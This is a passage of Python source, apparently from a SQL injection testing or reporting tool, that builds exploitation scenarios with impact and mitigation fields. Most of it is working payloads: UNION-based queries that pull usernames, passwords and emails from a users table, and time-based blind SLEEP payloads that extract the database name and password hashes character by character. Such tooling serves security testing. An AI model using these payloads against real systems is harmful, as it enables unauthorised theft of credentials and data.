 ```python
                    'expected_result': 'String data type confirmation in first column'
                },
                {
                    'step': 3,
                    'description': 'Extract database version',
                    'payload': f"{parameter}=' UNION SELECT @@version,NULL,NULL--",
                    'expected_result': 'Database version information displayed'
                },
                {
                    'step': 4,
                    'description': 'Extract user credentials',
                    'payload': f"{parameter}=' UNION SELECT username,password,email FROM users--",
                    'expected_result': 'Complete user account data extraction'
                }
            ],
            'impact': 'Direct data extraction and potential administrative access',
            'mitigation': 'Use parameterized queries and whitelist input validation'
        }
    
    def _create_time_based_exploitation_scenario(self, parameter: str) -> Dict[str, Any]:
        """
        Create time-based SQL injection exploitation scenario
        """
        return {
            'type': 'Time-based Blind SQL Injection Exploitation',
            'parameter': parameter,
            'attack_steps': [
                {
                    'step': 1,
                    'description': 'Confirm time-based injection',
                    'payload': f"{parameter}=' OR IF(1=1,SLEEP(5),0)--",
                    'expected_result': '5-second response delay confirming injection'
                },
                {
                    'step': 2,
                    'description': 'Extract database name length',
                    'payload': f"{parameter}=' OR IF(LENGTH(database())>5,SLEEP(5),0)--",
                    'expected_result': 'Conditional delay revealing database name length'
                },
                {
                    'step': 3,
                    'description': 'Extract database name character by character',
                    'payload': f"{parameter}=' OR IF(ASCII(SUBSTRING(database(),1,1))=116,SLEEP(5),0)--",
                    'expected_result': 'Character-by-character database name extraction'
                },
                {
                    'step': 4,
                    'description': 'Extract sensitive data systematically',
                    'payload': f"{parameter}=' OR IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))>64,SLEEP(5),0)--",
                    'expected_result': 'Systematic password hash extraction'
                }
            ],
            'impact': 'Complete database data extraction despite blind injection',
            'mitigation': 'Implement parameterized queries and timeout controls'
        }
    
    def _calculate_risk_rating(self, vulnerabilities: List[Dict[str, Any]]) -> str:
        """
        Calculate overall risk rating based on identified vulnerabilities
        """
        if not vulnerabilities:
```